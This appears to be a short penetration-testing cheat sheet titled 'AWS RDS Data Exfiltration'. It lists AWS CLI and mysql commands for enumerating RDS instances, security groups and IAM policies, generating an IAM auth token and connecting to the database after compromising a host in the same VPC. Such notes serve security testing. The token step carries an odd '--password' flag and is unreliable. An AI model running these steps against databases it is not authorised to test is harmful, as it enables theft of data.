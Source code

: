 # AWS RDS Data Exfiltration

### If the instance is in a security group or VPC, we need to compromise it first to access the database (For example, we compromise an EC2 instance in the same VPC, then its possible to connect)

## Steps:

#### 1) List instances in RDS

 - aws rds describe-db-instances

#### 2) List information about the specified security group

 - aws ec2 describe-security-groups --group-ids ID

## Password based authentication:

 - mysql -h HOSTNAME -u USERNAME -P PORT -p PASSWORD

## IAM based authentication

#### 1) Identify the user

 - aws sts get-caller-identity

#### 2) List all policies attached to a role

 - aws iam list-attached-role-policies --role-name NAME

#### 3) Get information about a specific version of a policy

 - aws iam get-policy-version --policy-arn ARN --version-id ID

#### 4) Get temporary token from RDS

 - aws rds generate-db-auth-token --hostname HOSTNAME --port PORT --username USERNAME --password PASSWORD (Put TOKEN=$(INSERT_THE_COMMAND_HERE)for using it as a variable)

## TIP: We can put it in a variable for ease of use

#### 5) Connect to the DB using the token

 - mysql -h HOSTNAME -u USERNAME -P PORT --enable-cleartext-plugin --user=USER --password=PASSWORD
